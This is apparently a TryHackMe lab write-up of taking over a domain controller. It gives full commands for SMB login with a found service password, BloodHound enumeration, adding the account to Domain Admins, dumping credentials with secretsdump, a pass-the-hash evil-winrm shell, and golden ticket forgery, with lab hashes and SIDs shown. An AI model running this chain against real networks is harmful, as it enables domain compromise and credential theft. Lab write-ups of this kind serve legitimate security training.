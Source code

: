 # DC.TRYHACKME.LOC

## Machine Information

Domain User from WRK machine: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



## Access via SMB with owned user

With discovered user in the WRK machine we can authenticate in the DC with SMB.

```bash
proxychains nxc smb 10.200.150.10 -u "svc.callback" -p 'qvBVAj9avM3ykcbf9s'
```

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>



## Lateral Movement

### Bloodhound Enumeration

Get information through the ingest

{% code overflow="wrap" %}
```bash
proxychains bloodhound-python -c all -ns 10.200.150.10 -dc DC.TRYHACKME.LOC -d TRYHACKME.LOC --zip -u 'svc.callback@TRYHACKME.LOC' -p 'qvBVAj9avM3ykcbf9s'
```
{% endcode %}

Checking the LDAP data in Bloodhound interface, notice that the user `SVC.CALLBACK` has `GenericWrite` privileges to `Domain Admins` group.

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>



### GenericWrite priv to Domain Admins

With this privileges we can add a user to Domain Admins group

{% code overflow="wrap" %}
```bash
proxychains net rpc group addmem "Domain Admins" "SVC.CALLBACK" -U "TRYHACKME.LOC"/"SVC.CALLBACK"%"qvBVAj9avM3ykcbf9s" -S "DC.TRYHACKME.LOC"
```
{% endcode %}

Now check if the user was successfully added to the Domain Admins Group

{% code overflow="wrap" %}
```bash
proxychains net rpc group members "Domain Admins" -U "TRYHACKME.LOC"/"SVC.CALLBACK"%"qvBVAj9avM3ykcbf9s" -S "DC.TRYHACKME.LOC"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>



## Dump credentials with Impacket

With impacket-secretsdump tool dump credentials.

{% code overflow="wrap" %}
```bash
proxychains impacket-secretsdump TRYHACKME.LOC/"SVC.CALLBACK":"qvBVAj9avM3ykcbf9s"@DC.TRYHACKME.LOC
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



## Access to DC as Administrator

Using evil-winrm tool an attacker can get access to a Remote Powershell shell as Administrator using the NTLM dumped.

{% code overflow="wrap" %}
```bash
proxychains evil-winrm -i DC.TRYHACKME.LOC -u 'Administrator' -H '581832e2ee43f9b866f4a3dcaf63a0e0'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



## Golden Ticket&#x20;

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:399b08294203eeafef6c1ec6d5747127:::
```

FQDN: DC.tryhackme.loc

Domain SID: S-1-5-21-1966530601-3185510712-10604624

Enterprise admin sid: S-1-5-21-1966530601-3185510712-10604624-519

Administrator user sid: S-1-5-21-1966530601-3185510712-10604624-500

### Forge ticket

{% code overflow="wrap" %}
```
proxychains impacket-ticketer -nthash "399b08294203eeafef6c1ec6d5747127" -domain-sid "S-1-5-21-1966530601-3185510712-10604624" -domain "TRYHACKME.LOC" "Administrator" -groups 519 -user-id 500
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{6ab86ae6-631e-4342-85a1-b104ffe45ea7}
```

